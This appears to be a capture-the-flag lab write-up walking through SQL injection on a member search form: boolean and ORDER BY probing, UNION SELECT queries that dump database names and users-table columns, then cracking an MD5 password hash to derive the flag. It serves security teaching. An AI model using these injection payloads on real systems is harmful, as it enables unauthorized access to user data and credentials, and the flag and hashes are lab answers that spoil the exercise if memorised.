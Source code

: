 # Breach : SQL in member search

Just like with image search page, we search with an input form entry so we try :

```tsx
1 OR 1=1
```

we get 

```tsx
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

we try to `1 OR 1=1 order by x` until it breaks (at 3) so the size for UNION is 2 cols

now we try to identify our database

```tsx
1 OR 1 = 1 UNION SELECT NULL, database() --  
```

we get that we are in member_sql_injection this time

```
ID: 1 OR 1=1 UNION SELECT null, database()
First name:
Surname : Member_Sql_Injection
```

we can try the last query we did in previous breach on sql injection for users

```tsx
1 OR 1=1 UNION SELECT user_id, country FROM users
```

now it works

```
ID: 1 OR 1=1 UNION SELECT user_id, country FROM users 
First name: 2
Surname : Finlande

ID: 1 OR 1=1 UNION SELECT user_id, country FROM users 
First name: 3
Surname : Irlande
```

so we can remember the past cols value and look for a flag maybe

```tsx
Title: user_id
Title: first_name
Title: last_name
Title: town
Title: country
Title: planet
Title: Commentaire
Title: countersign
Url : users
```

we try 

and get 

```tsx
ID: 1 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: three
Surname : me

[...]

ID: 1 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: 2b3366bcfd44f540e630d4dc2b9b06d9
Surname : Je pense, donc je suis

ID: 1 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: 60e9032c586fb422e2c16dee6286cf10
Surname : Aamu on iltaa viisaampi.

ID: 1 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: e083b24a01c483437bcf4a9eea7c1b4d
Surname : Dublin is a city of stories and secrets.

ID: 1 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

bingo on the flag : we decrypt the pwd with md5 

it yields : `FortyTwo`

we then hash it with sha256:

`9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646`

# How to avoid this breach ?
see the SQL injection for image Search 